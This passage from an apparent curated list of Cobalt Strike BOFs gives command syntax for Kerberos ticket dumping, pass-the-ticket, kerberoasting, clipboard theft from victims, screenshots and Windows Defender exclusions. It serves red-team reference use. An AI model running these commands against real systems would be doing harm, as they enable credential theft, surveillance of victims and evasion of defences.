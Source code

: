 # Ticket management
krb_ptt /ticket:BASE64 [/luid:LOGONID] --> Pass-the-ticket in current logon session
krb_purge [/luid:LOGONID] --> Purge all tickets or specific ticket
krb_describe /ticket:BASE64 --> Describe a ticket
krb_klist [/luid:LOGINID] [/user:USER] [/service:SERVICE] [/client:CLIENT] --> Klist command to list tickets
krb_dump [/luid:LOGINID] [/user:USER] [/service:SERVICE] [/client:CLIENT] --> Dump tickets for current user (non-privileged) or for all users (requires SYSTEM)
krb_triage [/luid:LOGINID] [/user:USER] [/service:SERVICE] [/client:CLIENT] --> Output table of all tickets
krb_tgtdeleg [/target:SPN] --> Get current user ticket from memory without requiring admin privs

# Roasting
krb_kerberoasting /spn:SPN [/nopreauth:USER] [/dc:DC] [/domain:DOMAIN] --> Kerberoast
krb_asreproasting /user:USER [/dc:DC] [/domain:DOMAIN] --> AS-REP roast

# Miscellaneous
krb_hash /password:PASSWORD [/user:USER] [/domain:DOMAIN] --> Generate RC4-hmac (NTLM) hash of password
krb_changepw /ticket:BASE64 /new:PASSWORD [/dc:DC] [/targetuser:USER] [/targetdomain:DOMAIN] --> Change current user password using MS kpasswd password change
```

- [**Cobalt-Clip**](https://github.com/DallasFR/Cobalt-Clip)<br />
A clipboard add-on for Cobalt Strike to interact with the victim's clipboard. With Cobalt-Clip you can dump, edit and monitor the content of a clipboard.<br />
```
dumpclip --> Dump current contents of clipboard
set-clipboard-data --> Modify victims clipboard data
clipmon --> Monitor the clipboard for new content and output to console
```

- [**ScreenshotBOF**](https://github.com/CodeXTF2/ScreenshotBOF)<br />
Uses WinAPI and avoids fork&run to take a screenshot.<br />
`screenshot_bof output.bmp 1`

- [**nanorobeus**](https://github.com/wavvs/nanorobeus)<br />
BOF equivalent of Rubeus for managing Kerberos tickets. It can be used cross-platform for multiple C2s including Cobalt Strike, Sliver and Brute Ratel.<br />
```
nanorobeus luid --> Get logon current ID
nanorobeus klist --> List all Kerberos tickets
nanorobeus dump /all --> Dump all Kerberos tickets, requires local admin privileges
nanorobeus kerberoast /spn:HTTP/server.fortress.local --> Kerberoast a specific SPN
nanorobeus ptt /ticket:<kirbi-base64> --> Pass-the-ticket
```

- [**Defender-Exclusions-Creator**](https://github.com/EspressoCake/Defender-Exclusions-Creator-BOF)<br />
Easily create, add, or remove Windows Defender exclusions using this BOF. Supports "Add/Remove" methods and exclution types "Path/Process/Extension".<br />
```
# Help
cEnumDefenderException (add|remove) (extension|path|process) thing_to_add_or_remove_exception_for [optional computer name]
